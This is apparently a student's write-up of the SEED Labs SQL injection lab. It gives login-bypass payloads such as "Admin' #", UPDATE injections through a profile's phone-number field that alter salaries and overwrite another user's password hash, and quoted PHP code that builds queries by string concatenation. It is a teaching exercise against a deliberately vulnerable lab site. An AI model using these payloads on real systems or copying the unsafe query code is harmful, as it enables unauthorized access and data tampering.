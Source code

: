 # SQLinjection
### Task 1:
	Log in MYSQL:
//code
		mysql -u root -pseedubuntu
		mysql> use Users;
		mysql> show tables;
	Use such a SQL query:
//code
		select * from credential where Name='Alice';
https://github.com/waqaraslam01/SQLinjection/blob/main/task%201.png

### Task 2:
### --> Task 2.1
	.USERNAME: "Admin' #"
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
//code
		SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		FROM credential
		WHERE name='Admin' #' && password='xyz'
https://github.com/waqaraslam01/SQLinjection/blob/main/task%202.1.png
### --> Task 2.2
	1- Write Code on Terminator in Seed Lab:
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	2- Copy the HTML code.
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
	4. Run this location on browser
https://github.com/waqaraslam01/SQLinjection/blob/main/task%202.2.png

### --> Task 2.3	
	inject statment to append a row to current database:
//code	
	INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
	After row inserted, go to browser and input as:
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #"
	.PASSWORD: "" (blank field)
https://github.com/waqaraslam01/SQLinjection/blob/main/task%202.3.png
(optional lines)
	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3
EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

### --> Task 3.1
	1- Login as Username= 'Alice' && Password = xyz, 
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	3- Update Phone Number as ', Salary=1000000 and save.
### --> Task 3.2
	1- Login as Username= 'Boby' #' and then open edit profile
	2- Update Phone Number: ',Salary=0 and remaining unchanges
https://github.com/waqaraslam01/SQLinjection/blob/main/task%203.2.png
	Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #
### --> Task 3.3
	We're login as Boby but change password of Alice
//backend code
	$conn = getDB();
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit();

Updation will be on Phone Number field;
Let Boby password as '123'. We must get SHA1 value of new password via some tool as:
	c0b656d5e415ca1a8e098a408f913ec229e120b6
Constuct Phone Number:
	', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
Save it and changes works accordingly. 
https://github.com/waqaraslam01/SQLinjection/blob/main/task%203.3.png
